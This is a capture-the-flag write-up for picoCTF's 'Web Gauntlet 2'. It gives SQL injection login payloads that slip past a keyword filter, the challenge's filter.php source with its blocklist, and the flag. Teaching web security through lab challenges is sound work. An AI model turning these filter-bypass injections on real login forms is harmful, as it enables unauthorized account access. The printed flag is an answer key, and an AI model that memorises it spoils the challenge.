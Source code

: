 # Web Gauntlet 2

## Category - Web Exploitation
## Author - MADSTACKS

### Description: 
This website looks familiar... Log in as admin Site: http://mercury.picoctf.net:26215/ Filter: http://mercury.picoctf.net:26215/filter.php

### Solution:
The challenge gives us a link which opens a webpage allowing us to login with a username and password that we can deduce are vulnerable to SQL injections. Looking at the filter 
link we can see what we must avoid when crafting our SQL injection. 

We know that the username field must be "admin" but unfortunately this is filtered. To bypass this we can simply use the "||" joiner with a final value for the username field of "ad'||'min".

For the password field we must simply provide something that returns true. The most common one used is "' OR '1'='1" but OR is filtered as seen in the filter.php file. Instead we can
craft a true statement using IS or IS NOT such as "a' IS NOT 'b" which is also true but does not use anything in the filter.php file.

Final values for login:
```
username: ad'||'min
password: a' IS NOT 'b
```
Using these to login we get the message "Congrats! You won! Check out filter.php". Finally reloading the http://mercury.picoctf.net:26215/filter.php page gives us this source code
with the flag:
```php
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_fc0f841ee8e0d3e1f479f1a01a617ebb}
?>
```

Note: If you successfuly ran the SQL injection but still see nothing in the filter.php file try clearing cache and then reloading to get the source code with flag.

### Flag:
```
picoCTF{0n3_m0r3_t1m3_fc0f841ee8e0d3e1f479f1a01a617ebb}
```
